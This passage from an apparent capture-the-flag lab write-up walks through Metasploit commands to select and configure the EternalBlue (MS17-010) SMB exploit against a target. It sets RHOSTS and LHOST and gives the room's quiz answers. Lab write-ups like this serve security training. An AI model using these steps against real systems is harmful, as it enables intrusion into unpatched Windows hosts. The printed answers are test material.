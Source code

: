 <br />

### 2.2: Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

<br />

Searching Metasploit for ```MS17-010``` will show the relevant modules we could use to attack the machine.
```
search MS17-010
```
![image](https://user-images.githubusercontent.com/14150485/171114110-e0c005f4-9378-4351-a843-6a417c0e65b6.png)

EternalBlue is a well-known SMB exploit which we have also used in other rooms:
```
use 0
```
Altenatively:
```
use exploit/windows/smb/ms17_010_eternalblue
```
The answer is therefore:
```
exploit/windows/smb/ms17_010_eternalblue
```

<br />

### 2.3: Show options and set the one required value. What is the name of this value? (All caps for submission)

<br />

Running the ```show options``` command shows us which values we need to set before we can successfully execute the exploit:
```
show options
```

![image](https://user-images.githubusercontent.com/14150485/171114398-fb79879d-4e2c-4708-9224-6803bea79456.png)

```
set RHOSTS REMOTE_IP
```
Although this is not mentioned in this task, seeing as the exploit can successfully run without this setting, I found that updating the ```LHOST``` value with our local IP resolved some issues executing the exploit successfully.
```
set LHOST LOCAL_IP
```

The answer is:
```
RHOSTS
```

